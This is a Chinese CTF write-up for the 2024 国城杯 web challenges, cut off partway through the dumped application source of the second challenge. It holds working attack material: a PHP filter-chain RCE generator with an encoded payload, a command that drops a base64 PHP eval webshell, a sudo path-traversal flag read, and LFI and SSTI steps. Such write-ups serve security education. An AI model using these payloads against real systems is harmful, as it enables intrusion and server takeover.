# 2024 国城杯 WriteUp-先知社区

> **来源**: https://xz.aliyun.com/news/16052  
> **文章ID**: 16052

---

## Web

### signal

dirsearch扫一下得到 `.index.php.swp`

在里面找到一个账号密码

```
guest:MyF3iend
```

登陆进去后来到 `guest.php`

存在任意文件读取，但在读`/var/www/html/guest.php`的时候环境直接崩了，这里我猜测能任意读文件的地方是用了`include`

二次编码绕过过滤，读出源码

```
/guest.php?path=php://filter/conv%2565rt.bas%256564-encode/resource=/var/www/html/guest.php
```

得到源码

```
<?php
session_start();
error_reporting(0);

if ($_SESSION['logged_in'] !== true || $_SESSION['username'] !== 'guest' ) {
    $_SESSION['error'] = 'Please fill in the username and password';
    header('Location: index.php');
    exit();
}

if (!isset($_GET['path'])) {
    header("Location: /guest.php?path=/tmp/hello.php");
    exit;
}

$path = $_GET['path'];
if (preg_match('/(\.\.\/|php:\/\/tmp|string|iconv|base|rot|IS|data|text|plain|decode|SHIFT|BIT|CP|PS|TF|NA|SE|SF|MS|UCS|CS|UTF|quoted|log|sess|zlib|bzip2|convert|JP|VE|KR|BM|ISO|proc|\_)/i', $path)) {
    echo "Don't do this";
}else{
    include($path);
}

?>

```

这里就可以用 `filter chain`来 RCE 了，需要稍微绕一下

```
<?php
$base64_payload = "PD89YCRfUE9TVFsxXWA7Pz4=";
$conversions = array(
    '/' => 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4',
    '0' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
    '1' => 'convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4',
    '2' => 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921',
    '3' => 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE',
    '4' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2',
    '5' => 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.GBK.UTF-8|convert.iconv.IEC_P27-1.UCS-4LE',
    '6' => 'convert.iconv.UTF-8.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.CSIBM943.UCS4|convert.iconv.IBM866.UCS-2',
    '7' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
    '8' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
    'A' => 'convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213',
    'B' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
    'C' => 'convert.iconv.UTF8.CSISO2022KR',
    'D' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
    'E' => 'convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT',
    'F' => 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB',
    'G' => 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90',
    'H' => 'convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213',
    'I' => 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213',
    'J' => 'convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4',
    'K' => 'convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE',
    'L' => 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC',
    'M' => 'convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T',
    'N' => 'convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4',
    'O' => 'convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775',
    'P' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB',
    'Q' => 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2',
    'R' => 'convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4',
    'S' => 'convert.iconv.UTF-8.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS',
    'T' => 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103',
    'U' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
    'V' => 'convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB',
    'W' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936',
    'X' => 'convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932',
    'Y' => 'convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361',
    'Z' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16',
    'a' => 'convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE',
    'b' => 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE',
    'c' => 'convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2',
    'd' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
    'e' => 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UTF16.EUC-JP-MS|convert.iconv.ISO-8859-1.ISO_6937',
    'f' => 'convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213',
    'g' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8',
    'h' => 'convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE',
    'i' => 'convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000',
    'j' => 'convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16',
    'k' => 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2',
    'l' => 'convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE',
    'm' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949',
    'n' => 'convert.iconv.ISO88594.UTF16|convert.iconv.IBM5347.UCS4|convert.iconv.UTF32BE.MS936|convert.iconv.OSF00010004.T.61',
    'o' => 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE',
    'p' => 'convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4',
    'q' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.GBK.CP932|convert.iconv.BIG5.UCS2',
    'r' => 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.ISO-IR-99.UCS-2BE|convert.iconv.L4.OSF00010101',
    's' => 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90',
    't' => 'convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS',
    'u' => 'convert.iconv.CP1162.UTF32|convert.iconv.L4.T.61',
    'v' => 'convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO_6937-2:1983.R9|convert.iconv.OSF00010005.IBM-932',
    'w' => 'convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE',
    'x' => 'convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS',
    'y' => 'convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT',
    'z' => 'convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937',
);

$filters = "convert.base64-encode|";
# make sure to get rid of any equal signs in both the string we just generated and the rest of the file
$filters .= "convert.iconv.UTF8.UTF7|";

foreach (str_split(strrev($base64_payload)) as $c) {
    $filters .= $conversions[$c] . "|";
    $filters .= "convert.base64-decode|";
    $filters .= "convert.base64-encode|";
    $filters .= "convert.iconv.UTF8.UTF7|";
}

$filters .= "convert.base64-decode";

$final_payload = "php://filter/{$filters}/resource=index.php";
echo $final_payload;

```

二次编码绕过

```
text = 'php://filter/convert.base64-encode|convert.iconv.UTF8.UTF7||convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=index.php'

a = "string|iconv|base|rot|IS|data|text|plain|decode|SHIFT|BIT|CP|PS|TF|NA|SE|SF|MS|UCS|CS|UTF|quoted|log|sess|zlib|bzip2|convert|JP|VE|KR|BM|ISO|proc|_|ve|se"
a = a.split('|')
for i in a:
    tmp = i[0]
    tmp = hex(ord(tmp))[2:]
    tmp = '%25'+tmp+i[1:]
    # print(tmp)
    if i in text:
        text = text.replace(i,tmp)

print(text)
# php://filter/%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7||%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.U%2554F8.U%2554F16LE|%2563on%2576ert.%2569conv.U%2554F8.%2543S%2549SO2022%254bR|%2563on%2576ert.%2569conv.%2555%2543S2.EUCTW|%2563on%2576ert.%2569conv.L4.U%2554F8|%2563on%2576ert.%2569conv.IEC%255fP271.%2555%2543S2|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.865.U%2554F16|%2563on%2576ert.%2569conv.%2543P901.%2549SO6937|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.%2553E2.U%2554F-16|%2563on%2576ert.%2569conv.%2543SI%2542M1161.I%2542M-932|%2563on%2576ert.%2569conv.%254dS932.%254dS936|%2563on%2576ert.%2569conv.BIG5.JOHAB|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.U%2554F8.U%2554F16LE|%2563on%2576ert.%2569conv.U%2554F8.%2543S%2549SO2022%254bR|%2563on%2576ert.%2569conv.%2555%2543S2.EUCTW|%2563on%2576ert.%2569conv.L4.U%2554F8|%2563on%2576ert.%2569conv.866.%2555%2543S2|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.8859%255f3.U%2554F16|%2563on%2576ert.%2569conv.863.%2553HIFT%255fJ%2549SX0213|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.%2553E2.U%2554F-16|%2563on%2576ert.%2569conv.%2543SI%2542M1161.I%2542M-932|%2563on%2576ert.%2569conv.%254dS932.%254dS936|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.PT.U%2554F32|%2563on%2576ert.%2569conv.KOI8-U.I%2542M-932|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.%2543P-AR.U%2554F16|%2563on%2576ert.%2569conv.8859%255f4.BIG5HKS%2543S|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.I%2542M869.U%2554F16|%2563on%2576ert.%2569conv.L3.%2543S%2549SO90|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.L5.U%2554F-32|%2563on%2576ert.%2569conv.%2549SO88594.GB13000|%2563on%2576ert.%2569conv.%2543P950.%2553HIFT%255fJ%2549SX0213|%2563on%2576ert.%2569conv.UHC.JOHAB|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.%2543P861.U%2554F-16|%2563on%2576ert.%2569conv.L4.GB13000|%2563on%2576ert.%2569conv.BIG5.JOHAB|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.L6.UNICODE|%2563on%2576ert.%2569conv.%2543P1282.%2549SO-IR-90|%2563on%2576ert.%2569conv.%2543SA%255fT500.L4|%2563on%2576ert.%2569conv.%2549SO%255f8859-2.%2549SO-IR-103|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.U%2554F8.%2543S%2549SO2022%254bR|%2563on%2576ert.%2569conv.%2549SO2022%254bR.U%2554F16|%2563on%2576ert.%2569conv.%2549SO6937.JOHAB|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.I%2542M860.U%2554F16|%2563on%2576ert.%2569conv.%2549SO-IR-143.%2549SO2022CNEXT|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.U%2554F8.%2543S%2549SO2022%254bR|%2563on%2576ert.%2569conv.%2549SO2022%254bR.U%2554F16|%2563on%2576ert.%2569conv.%2543P1133.I%2542M932|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.%2543P367.U%2554F-16|%2563on%2576ert.%2569conv.%2543SI%2542M901.%2553HIFT%255fJ%2549SX0213|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.PT.U%2554F32|%2563on%2576ert.%2569conv.KOI8-U.I%2542M-932|%2563on%2576ert.%2569conv.SJ%2549S.EUC%254aP-WIN|%2563on%2576ert.%2569conv.L10.%2555%2543S4|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.U%2554F8.%2543S%2549SO2022%254bR|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.%2543P367.U%2554F-16|%2563on%2576ert.%2569conv.%2543SI%2542M901.%2553HIFT%255fJ%2549SX0213|%2563on%2576ert.%2569conv.UHC.%2543P1361|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.U%2554F8.%2543S%2549SO2022%254bR|%2563on%2576ert.%2569conv.%2549SO2022%254bR.U%2554F16|%2563on%2576ert.%2569conv.%2549SO6937.JOHAB|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.U%2554F8.%2543S%2549SO2022%254bR|%2563on%2576ert.%2569conv.%2549SO2022%254bR.U%2554F16|%2563on%2576ert.%2569conv.L6.%2555%2543S2|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.U%2554F8.U%2554F16LE|%2563on%2576ert.%2569conv.U%2554F8.%2543S%2549SO2022%254bR|%2563on%2576ert.%2569conv.%2555%2543S2.U%2554F8|%2563on%2576ert.%2569conv.SJ%2549S.GBK|%2563on%2576ert.%2569conv.L10.%2555%2543S2|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2569conv.%2553E2.U%2554F-16|%2563on%2576ert.%2569conv.%2543SI%2542M1161.I%2542M-932|%2563on%2576ert.%2569conv.%254dS932.%254dS936|%2563on%2576ert.%2569conv.BIG5.JOHAB|%2563on%2576ert.%2562a%2573e64-%2564ecode|%2563on%2576ert.%2562a%2573e64-encode|%2563on%2576ert.%2569conv.U%2554F8.U%2554F7|%2563on%2576ert.%2562a%2573e64-%2564ecode/resource=index.php

```

最终实现 RCE



写个马

```
1=echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOzs/Pg==|base64 -d>/var/www/html/1.php
```

在 tmp 目录下找到这么一句话



find 命令查找 suid 权限，发现 sudo，接着查看 `sudo -l`



可以看到 `/bin/cat /tmp/whereflag/*` 可以免密 sudo

用 `../` 绕一下即可查看root目录下的文件

```
sudo /bin/cat /tmp/whereflag/../../../root/flag
```



### Ez\_Gallery

登陆，弱密码试一下，发现登陆密码是 `123456`

```
admin/123456
```

登陆进去后发现任意文件读取，读取源码

```
/info?file=/app/app.py
```

```
import jinja2
from pyramid.config import Configurator
from pyramid.httpexceptions import HTTPFound
from pyramid.response import Response
from pyramid.session import SignedCookieSessionFactory
from wsgiref.simple_server import make_server
from Captcha import captcha_image_view, captcha_store
import re
import os

class User:
    def __init__(self, username, password):
        self.username = username
        self.password = password

users = {"admin": User("admin", "123456")}

def root_view(request):
    # 重定向到 /login
    return HTTPFound(location='/login')

def info_view(request):
    # 查看细节内容
    if request.session.get('username') != 'admin':
        return Response("请先登录", status=403)

    file_name = request.params.get('file')
    file_base, file_extension = os.path.splitext(file_name)
    if file_name:
        file_path = os.path.join('/app/static/details/', file_name)
        try:
            with open(file_path, 'r', encoding='utf-8') as f:
                content = f.read()
                print(content)
        except FileNotFoundError:
            content = "文件未找到。"
    else:
        content = "未提供文件名。"

    return {'file_name': file_name, 'content': content, 'file_base': file_base}

def home_view(request):
    # 主路由
    if request.session.get('username') != 'admin':
        return Response("请先登录", status=403)

    detailtxt = os.listdir('/app/static/details/')
    picture_list = [i[:i.index('.')] for i in detailtxt]
    file_contents = {}
    for picture in picture_list:
        with open(f"/app/static/details/{picture}.txt", "r", encoding='utf-8') as f:
            file_contents[picture] = f.read(80)

    return {'picture_list': picture_list, 'file_contents': file_contents}

def login_view(request):
    if request.method == 'POST':
        username = request.POST.get('username')
        password = request.POST.get('password')
        user_captcha = request.POST.get('captcha', '').upper()

        if user_captcha != captcha_store.get('captcha_text', ''):
            return Response("验证码错误，请重试。")
        user = users.get(username)
        if user and user.password == password:
            request.session['username'] = username
            return Response("登录成功！&lt;a href='/home'&gt;点击进入主页&lt;/a&gt;")
        else:
            return Response("用户名或密码错误。")
    return {}

def shell_view(request):
    if request.session.get('username') != 'admin':
        return Response("请先登录", status=403)

    expression = request.GET.get('shellcmd', '')
    blacklist_patterns = [r'.*length.*',r'.*count.*',r'.*[0-9].*',r'.*\..*',r'.*soft.*',r'.*%.*']
    if any(re.search(pattern, expression) for pattern in blacklist_patterns):
        return Response('wafwafwaf')
    try:
        result = jinja2.Environment(loader=jinja2.BaseLoader()).from_string(expression).render({"request": request})
        if result != None:
            return Response('success')
        else:
            return Response('error')
    except Exception as e:
        return Response('error')


def main():
    session_factory = SignedCookieSessionFactory('secret_key')
    with Configurator(session_factory=session_factory) as config:
        config.include('pyramid_chameleon')  # 添加渲染模板
        config.add_static_view(name='static', path='/app/static')
        config.set_default_permission('view')  # 设置默认权限为view

        # 注册路由
        config.add_route('root', '/')
        config.add_route('captcha', '/captcha')
        config.add_route('home', '/home')
        config.add_route('info', '/info')
        config.add_route('login', '/login')
        config.add_route('shell', '/shell')
        # 注册视图
        config.add_view(root_view, route_name='root')
        config.add_view(captcha_image_view, route_name='captcha')
